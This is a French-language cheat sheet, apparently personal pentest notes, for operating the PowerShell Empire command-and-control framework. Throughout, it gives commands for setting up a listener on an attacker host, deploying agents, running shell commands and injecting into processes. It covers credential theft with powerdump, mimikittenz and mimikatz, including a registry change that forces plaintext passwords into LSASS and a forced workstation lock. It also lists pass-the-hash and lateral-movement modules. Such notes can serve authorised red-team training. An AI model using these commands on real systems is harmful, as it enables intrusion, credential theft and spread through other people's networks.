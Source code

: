 ps-empire serveur
ps-empire client

#agent , listener , usermodule 

#llisteners context
listeners
help
back

#créer un listener
uselistener <wait> 

	-killdate - temp de vie du listener
	-stagingkey -  key pour chiffrer les communications entre l'agent et le listener 
	-workinghours - limite le temps d'activité du listener
	-defaultdelay - specifie le delais de reponse ( les agents ne sont pas synchronisés)
	
# par defaut 5s (l'agent demande des renseignement au listener) , IP deja mise, port 80

set DefaultDelay 1
set Port 9999
set Host http://<IP>:9999
execute
listeners

#deployer un agent
usestager <wait> 
options  
set Listener <listener>
generate


#active agent
agents
help
rename XXXX agent1
list

interact agent1
help
info

#modules
usemodule <tab> 
	• code_execution: These modules let you run code, including Metasploit payloads, on the target box. collection: These modules let you pillage information from the target machine.
	• credentials: These modules let you plunder usernames, hashes, and passwords from the target.
	• exploitation: These modules let you exploit additional targets.
	• lateral_movement: These modules let you pivot to other target machines.
	• management: These modules are associated with system administration functions on the target.
	• persistence: These modules will make your agent survive across user logoff or reboot.
	• privesc: These modules provide privilege escalation exploits.
	• recon: These are the reconnaissance modules.
	• situational_awareness: These modules pull information from the target environment, including scanners and related tools.
    • trollsploit : troll, play audio, pop dialog
    
    
usemodule <wait> 
execute 
view 1


#pour le shell
shell <commande>
view 2

#créer un nouveau agent 
psinject http <3304(pid)>

#import script
scriptimport /opt/ps/Sherlock.ps1
scriptcmd Find-AllVulns
jobs

#pour finir
agents 
kill all
y
listeners 
kill all
exit


#modules
situational_awarness/network/powerview/get_user
situational_awarness/network/powerview/get_computer
situational_awarness/network/powerview/find_localadmin_access #connexion sur tous les hosts 
#check : shell dir \\<host>\C$


hash
	usemodule powershell/credentials/powerdump
	#mimikittenz
	scriptimport /opt/mimikittenz/Invoke-mimikittenz.ps1
	scriptcmd Invoke-mimikittenz
	#mimikatz
	changer la cle de registre pour avoir les mdp dans LSASS # +besoin que le user se reconecte, ici on verouille l'ordinateur pour le pas redemarer 
	shell reg add
	HKLM\SYSTEM\CurrentControlSet\Control\SecurityProviders\WDigest /v UseLogonCredentials /t REG_DWORD /d 1 /f
	shell rundll32.exe user32.dll,LockWorkStation

PTH
	credentials/mimikatz/pth
	
privesc
	usemodule powershell/privesc/ask

	If you are already admin, you can attempt to use the classic getsystem module
	usemodule privesc/getsystem

lateral mouvement
	inveigh_relay 					#smbrelay
	invoke_executemsbuild 	#execute msbild local/remote
	invoke_psremoting 			#execute stager on host using psremoting
	invoke_sqloscmd 				# stager on host using xp_cmdshell
	inkoke_wmi 						#stager on wmi 
	jenkins_script_console
	invoke_dcom #MMC20
	invoke_psexec
	invoke_smbexec
	invoke_sshcommand
	new_gpo_immediate_task
